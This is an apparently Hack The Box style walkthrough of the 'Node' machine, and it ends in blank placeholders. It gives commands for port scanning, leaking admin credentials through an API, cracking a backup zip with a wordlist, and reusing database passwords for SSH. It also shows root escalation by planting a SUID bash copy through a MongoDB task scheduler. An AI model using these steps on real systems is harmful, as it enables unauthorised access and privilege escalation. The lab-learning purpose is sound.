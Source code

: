 ## Node

#### Scan to discover open ports
```sh
nmap -sS -P0 -n -p- -T5 -oA nmap-tcp-allports-fast 10.10.10.58
```

#### Enumerate the discovered ports
```sh
nmap -sV -n -sC -p22,3000 -oA nmap-tcp-foundports 10.10.10.58
```

Gobuster/dirbuster doesn't work as every response returns 200.

So fire up burp to intercept a request to `http://10.10.10.58:3000/`. Notice that there are 2 responses; one for `/` as expected but then another one for `/<uuid>`.

Navigate to the `/<uuid>` link from a browser through Burp. Go to the Target -> Site Map tabs and expand the 10.10.10.58 host. Notice the `/api/users/latest` file and you should see json content. If not then you can run:
```sh
$ curl -s http://10.10.10.58:3000/api/users | json_pp
```


Naviagate to the login page in a web browser at `http://10.10.10.58:3000/login`, enter the admin credentials discovered in `http://10.10.10.58:3000/api/users` and click the `Login` button.
Once you'ev logged in, click the `Download Backup` button that is presented to you and save the file as `myplace.backup.zip`.

#### Decode the content to reveal a zip file
```sh
$ base64 --decode myplace.backup > myplace.backup.zip
```

#### Crack the zip file
```sh
$ crackzip -D -p /usr/share/wordlists/rockyou.txt -u myplace.backup.zip
```

#### Unzip the backup
```sh
$ unzip myplace.backup.zip
```

#### Review the app.js file
```sh
$ vim -R var/www/myspace/app.js
```

Notice the `const url` towards the top which contains a mongodb connection string including a username and password.

#### SSH into the Node box using the mongodb creds we just found
```sh
$ ssh 10.10.10.58 -l mark
```

#### Insert task into mongo-based task executor
```sh
# Connect to local mongo scheduler db
$ mongo -p -u mark scheduler

# Insert a new task to copy bash and SUID it
> db.tasks.insert({"cmd":"/bin/cp /bin/bash /tmp/lsec; /bin/chmod u+s /tmp/lsec; chmod g+s /tmp/lsec"});

# See if task is still pending
> db.tasks.find()

# Exit mongodb
> Ctrl-D
```

#### Execute the SUID bash shell using the -p flag
```sh
$ /tmp/lsec -p
```

#### Find SUID programs now that we're Tom
```sh
$ find / -perm -4000 2>/dev/null
```

#### Investigate the `/usr/local/bin/backup` found in output above
```sh
$ ls -ltr /usr/local/bin/backup

$ file /usr/local/bin/backup

$ /usr/local/bin/backup
```

...

# ____
```
$ ______
```
